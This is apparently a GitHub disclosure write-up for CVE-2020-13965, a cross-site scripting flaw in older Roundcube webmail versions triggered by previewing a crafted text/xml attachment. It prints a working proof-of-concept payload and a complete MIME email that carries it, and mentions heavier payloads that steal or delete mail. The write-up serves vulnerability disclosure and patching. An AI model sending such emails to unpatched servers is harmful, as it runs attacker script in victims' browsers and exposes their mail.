

# CVE-2020-13965: Cross-Site Scripting (XSS) via Malicious XML Attachment in Roundcube Webmail

A Cross-Site scripting (XSS) vulnerability exists in Roundcube versions before 1.4.5 and 1.3.12.
<br/>
By leveraging the parsing of "text/xml" attachment, an attacker can bypass the Roundcube script filter and execute arbitrary malicious JavaScript in the victim's browser when the malicious attachment is clicked/previewed.

### Vendor Disclosure:

The vendor's disclosure and patch of this vulnerability can be found [here](https://roundcube.net/news/2020/06/02/security-updates-1.4.5-and-1.3.12).

### Proof Of Concept:

By leveraging the parsing of XML elements by modern browsers, an attacker can use a "text/xml" attachment that will result in an XSS when the victim previews the attachment.
<br/>
The XHTML content of a malicious file has the following form:
```
<something:script xmlns:something="http://www.w3.org/1999/xhtml">
alert(1);
</something:script>
```

Now we are interested in creating a valid email with the above file. This can be achieved in multiple ways, but in this case, "[mpack](https://linux.die.net/man/1/mpack)" was used.
<br/>
<strong>Note:</strong> Because "mpack" does not support "text/xml" formats, we use an "application/xml" format which we later manually modify.
<br/>
The resulting email, containing the above XSS will have the following form:
```
Message-ID: <7676.1587651521@tester>
Mime-Version: 1.0
Subject: On Preview Alert
Content-Type: multipart/mixed; boundary="-"

This is a MIME encoded message.  Decode it with "munpack"
or any other MIME reading software.  Mpack/munpack is available
via anonymous FTP in ftp.andrew.cmu.edu:pub/mpack/
---
Content-Type: text/xml; name="alert.xml"
Content-Disposition: inline; filename="alert.xml"

<something:script xmlns:something="http://www.w3.org/1999/xhtml">
alert(1);
</something:script>

-----
```

We can then use "[sendmail](https://linux.die.net/man/8/sendmail.sendmail)" or other solutions to send the email to the victim. In this case the victim will be "guest@localhost".
<br/>
The XSS will trigger when the victim clicks on the malicious attachment:



#### Implementing an "Advanced" JavaScript Payload

Advanced JavaScript payloads can be used in order to:
- Exfiltrate victim's mails
- Delete victim's mails
- Etc.

For more information about this step you can refer to [CVE-2020-12625](../CVE-2020-12625-Cross%20Site-Scripting%20via%20Malicious%20HTML%20Attachment-Roundcube#implementing-an-advanced-javascript-payload).


